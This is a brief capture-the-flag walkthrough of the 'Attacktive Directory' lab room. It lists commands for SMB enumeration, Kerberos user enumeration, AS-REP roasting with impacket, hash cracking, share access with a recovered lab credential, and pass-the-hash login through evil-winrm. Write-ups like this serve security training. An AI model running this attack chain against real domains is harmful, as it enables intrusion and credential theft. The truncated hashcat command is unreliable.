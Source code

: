 # Attacktive Directory

### Enumeration

```bash
enum4linux 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (53).png" alt=""><figcaption><p>scanning port 139/445</p></figcaption></figure>

kerbrute

```powershell
 ./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.176.12  userlist.txt 
```

<figure><img src="../../../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

impacket-GetNPUsers

```bash
impacket-GetNPUsers spookysec.local/svc-admin -dc-ip 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

hashcat

```
hashcat -m 18
```

<figure><img src="../../../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

### smbclient

```
smbclient -L //10.10.176.12  -U "svc-admin"
```

<figure><img src="../../../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

```bash
smb://ip/backup
```

<figure><img src="../../../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
backup@spookysec.local:backup2517860
{% endhint %}



<figure><img src="../../../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>



```bash
evil-winrm -u <user> -H "hash" -i ip
```

<figure><img src="../../../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>
